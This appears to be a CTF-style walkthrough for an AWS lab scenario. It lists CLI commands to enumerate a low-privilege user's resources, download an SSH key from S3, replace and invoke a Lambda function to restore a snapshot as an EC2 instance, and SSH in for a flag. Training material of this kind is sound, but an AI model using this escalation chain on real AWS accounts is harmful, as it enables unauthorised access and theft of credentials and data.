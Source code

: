 
## Reconnaissance

1. Assume the "ls-user" role
   ```
   aws configure --profile ls-user
   ```

2. List policies attached to the "ls-user":
   ```
   aws iam list-attached-user-policies --user-name ls-user
   ```

3. List available EC2 snapshots:
   ```
   aws --profile ls-user --region us-east-1 ec2 describe-snapshots --owner-ids self
   ```

   Optional: Attempt to restore the snapshot as the ls-user directly (Will not work)
   ```
   aws ec2 create-volume --snapshot-id <snapshot-id> --availability-zone us-east-1a
   ```
   
5. List available Lambda functions:
   ```
   aws --profile ls-user --region us-east-1 lambda list-functions
   ```

6. List S3 buckets and their contents:
   ```
   aws --profile ls-user --region us-east-1 s3 ls
   ```

   ```
   aws --profile ls-user --region us-east-1 s3 ls s3://<bucket-name>
   ```

7. Download the SSH key from the S3 bucket:
   ```
   aws --profile ls-user --region us-east-1 s3 cp s3://<bucket-name>/ssh_key ./ssh_key.pem
   chmod 400 ssh_key.pem
   ```

*Dont forget to change the permissions of the ssh key*
   ```
   chmod 400 ssh_key.pem
   ```
8. List AMIs:
```
aws --profile ls-user --region us-east-1 ec2 describe-images --owners self
```

8. List subnets:
```
aws --profile ls-user --region us-east-1 ec2 describe-subnets
```

9. List security groups:
```
aws --profile ls-user --region us-east-1 ec2 describe-security-groups
```


## Lambda Function Invocation

1. Download the Lambda function code:
   ```
   aws --profile ls-user --region us-east-1 lambda get-function --function-name RestoreSnapshot --query 'Code.Location' --output text | xargs curl -o lambda_function.zip
   ```

2. Update the Lambda function code with the necessary resources discovered during reconnaissance (snapshot ID, AMI ID, subnet ID, security group ID).

3. Zip the updated Lambda function code:
   ```
   zip lambda_function.zip lambda_function.py
   ```

4. Update the Lambda function code:
   ```
   aws --profile ls-user --region us-east-1 lambda update-function-code --function-name RestoreSnapshot --zip-file fileb://lambda_function.zip
   ```

5. Invoke the Lambda function:
   ```
   aws --profile ls-user --region us-east-1 lambda invoke --function-name RestoreSnapshot output.txt
   ```


## Accessing the Restored EC2 Instance

1. List running EC2 instances:
   ```
   aws --profile ls-user --region us-east-1 ec2 describe-instances --filters "Name=instance-state-name,Values=running"
   ```

2. SSH into the restored EC2 instance:
   ```
   ssh -i ssh_key.pem ec2-user@<public-ip>
   ```

3. Find the flag inside the EC2 instance to complete the scenario.

4. Terminate the EC2 instance once you are done (The "destroy" command will not remove the instance)
   ```
   aws ec2 terminate-instances --instance-ids YOUR_INSTANCE_ID
   ```





